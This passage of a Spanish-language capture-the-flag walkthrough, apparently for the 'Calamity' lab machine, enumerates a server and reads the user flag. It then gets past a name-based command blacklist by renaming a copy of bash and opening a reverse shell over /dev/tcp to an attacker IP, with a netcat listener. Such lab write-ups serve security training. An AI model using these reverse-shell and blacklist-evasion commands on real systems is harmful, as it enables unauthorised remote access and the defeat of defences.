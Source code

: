 > [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19

Tambien se podria utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Analizando el servidor {-}

```bash
whoami
ifconfig
ls -l
ls -l /home
ls -l /home/xalvas
cat /home/xalvas/user.txt
```

Encontramos el usuario **xalvas** y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el sistema nos expulsa cuando lo hacemos?

El comando `ls -l /home/xalvas` nos muestra ficheros. En el fichero `intrusions` vemos lo siguiente

```bash
cat /home/xalvas/intrusions
```

```{r, echo = FALSE, fig.cap="fichero intrusions", out.width="90%"}
    knitr::include_graphics("images/calamity-intrusions.png")
```

Vemos que el comando `nc` esta BlackListeado y que logea el Proccess Kill en este fichero. El problema de esto es que se puede
que los comandos BlackListeados se controlan con los nombres mismo (no permite `nc, python, bash`). Pero que pasa si copiamos el 
binario bash y que le ponemos un nombre diferente.

1. Nos ponemos en escucha por el puerto 443 en la maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

    ```bash
    cp /bin/bash /dev/shm/s4vitar
    ls /dev/shm/s4vitar
    /dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1
    /dev/shm/s4vitar -c "/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"
    /dev/shm/s4vitar -c '/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'
    ```

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.
